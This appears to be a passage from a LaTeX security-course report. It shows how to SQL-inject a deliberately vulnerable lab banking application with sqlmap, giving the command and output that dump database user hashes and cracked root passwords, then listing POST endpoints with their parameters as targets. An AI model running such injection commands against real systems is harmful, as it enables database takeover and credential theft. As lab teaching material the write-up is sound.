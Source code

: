 As you can see in Listing \ref{listing:dump_table}. you receive a list of the columns of the table. You also get a list of all entries. For this example only the data of the admin were chosen, but you can access every entry.
 \newline
 \newline
A further possibility is to break the authentication of the database by hijacking the password of the database root user.

\begin{lstlisting}[caption=Get password of database root user,label=listing:database_get_password]
	python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --users --passwords -D banking_development 
	...
	database management system users [8]:
	[*] ''@'localhost'
	[*] ''@'samurai-wtf'
	[*] 'debian-sys-maint'@'localhost'
	[*] 'phpmyadmin'@'localhost'
	[*] 'root'@'127.0.0.1'
	[*] 'root'@'::1'
	[*] 'root'@'localhost'
	[*] 'root'@'samurai-wtf'
	...
	database management system users password hashes:                                               
	[*]  [1]:
	password hash: NULL
	[*] debian-sys-maint [1]:
	password hash: *3380A3DC27DEAC2CFFE40754FE91863CE3B5E786
	[*] phpmyadmin [1]:
	password hash: *8CE09BF054AFC740BF3C6153310E9A9565E34DE0
	clear-text password: samurai
	[*] root [2]:
	password hash: *7D9A6BEA19329B17998DC4F1130F8E40884A227F
	clear-text password: badass
	password hash: *8CE09BF054AFC740BF3C6153310E9A9565E34DE0
	clear-text password: samurai
	
\end{lstlisting}

With a integrated dictionary-based password cracking tool, you can convert the hashed password to plain text assuming weak passwords (like in our case). Now you can access the adminer web-interface and login as root.

\subsubsection{POST}
\begin{itemize}
	\item http://192.168.56.101/sc-course/controllers/user/login\_process.php (email,password)
	\item http://192.168.56.101/sc-course/controllers/transactions/create\_process.php (transaction[payment][to\_iban],transaction[payment][amount])
	\item http://192.168.56.101/sc-course/controllers/user/registration\_process.php (user[email],user[name],user[password],user[password\_confirmation],user[account\_no],user[employee],user[terms\_and\_conditions])
	\item http://192.168.56.101/sc-course/controllers/user/logout\_process.php (logout)
	
	
\end{itemize}

